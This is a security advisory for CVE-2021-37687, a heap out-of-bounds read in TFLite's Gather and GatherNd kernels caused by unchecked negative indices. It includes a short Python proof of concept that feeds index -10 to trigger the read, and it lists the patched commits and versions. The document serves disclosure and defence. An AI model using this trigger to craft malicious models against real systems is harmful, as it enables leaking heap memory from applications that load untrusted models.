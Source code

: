 ## TFSA-2021-161: Heap OOB in TFLite's `Gather*` implementations

### CVE Number
CVE-2021-37687

### Impact
TFLite's [`GatherNd`
implementation](https://github.com/machina/machina/blob/149562d49faa709ea80df1d99fc41d005b81082a/machina/lite/kernels/gather_nd.cc#L124)
does not support negative indices but there are no checks for this situation.

Hence, an attacker can read arbitrary data from the heap by carefully crafting a
model with negative values in `indices`.

Similar issue exists in [`Gather`
implementation](https://github.com/machina/machina/blob/149562d49faa709ea80df1d99fc41d005b81082a/machina/lite/kernels/gather.cc).

```python
import machina as tf
import numpy as np
tf.compat.v1.disable_v2_behavior()

params = tf.compat.v1.placeholder(name="params", dtype=tf.int64, shape=(1,))
indices = tf.compat.v1.placeholder(name="indices", dtype=tf.int64, shape=())

out = tf.gather(params, indices, name='out')

with tf.compat.v1.Session() as sess:
   converter = tf.compat.v1.lite.TFLiteConverter.from_session(sess, [params, indices], [out])
   tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

input_details = interpreter.get_input_details()
output_details = interpreter.get_output_details()

params_data = np.reshape(np.array([1], dtype=np.int64), newshape=(1,))
indices_data = np.reshape(np.array(-10, dtype=np.int64), newshape=())
interpreter.set_tensor(input_details[0]['index'], params_data)
interpreter.set_tensor(input_details[1]['index'], indices_data)

interpreter.invoke()
```

### Patches
We have patched the issue in GitHub commits
[bb6a0383ed553c286f87ca88c207f6774d5c4a8f](https://github.com/machina/machina/commit/bb6a0383ed553c286f87ca88c207f6774d5c4a8f)
and
[eb921122119a6b6e470ee98b89e65d721663179d](https://github.com/machina/machina/commit/eb921122119a6b6e470ee98b89e65d721663179d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
